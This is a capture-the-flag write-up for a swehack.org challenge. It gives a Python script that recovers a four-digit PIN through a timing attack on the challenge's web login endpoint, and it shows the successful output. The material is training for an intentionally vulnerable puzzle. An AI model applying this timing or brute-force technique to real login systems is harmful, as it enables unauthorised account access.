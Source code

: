 This was the last step of a challenge that grocid published @ swehack.org

https://oppnakarnan.cf/debugterminal3/console_346j7.php?username=core&pin=

So it was obvious we needed the correct pin and grocid left a hint 'take the time to get to the next step'.

I actually wrote a brute force script starting from 1000, i guessed the pin was four digits and started the script, went to work and when I got home the script had found the correct pin.

However, this was not the "correct" way, I could use a timing attack instead and crack the pin in a couple of minutes, and this is good training for me :)

```
import requests
import time


def brutepin(pin):
        payload = {"username": "core", "pin" : pin}
        start = time.time()
        r = requests.get('https://oppnakarnan.cf/debugterminal3/console_346j7.php', params=payload)
        r.content  
        roundtrip = time.time() - start 
        resp.append(roundtrip)

def testpin(pin):
        r = requests.get('https://oppnakarnan.cf/debugterminal3/console_346j7.php?username=core&pin='+pin)      
        if not "Incorrect password" in r.text:
                print "[+] correct pin",pin
                return True

pin = p =""
found = False
for y in range(8):
        resp = []
        for n in range(10):
                p = pin
                p += str(n)
                brutepin(p)
        p = min(resp)
        p = resp.index(p)        
        pin += str(p)
        if testpin(pin) == True:
                break
```                
credz to grocid for an awesome challenge

grocid.net

Output:
```
root@lola:~/Desktop/grocid# python brute.py 
[+] correct pin 7771
```
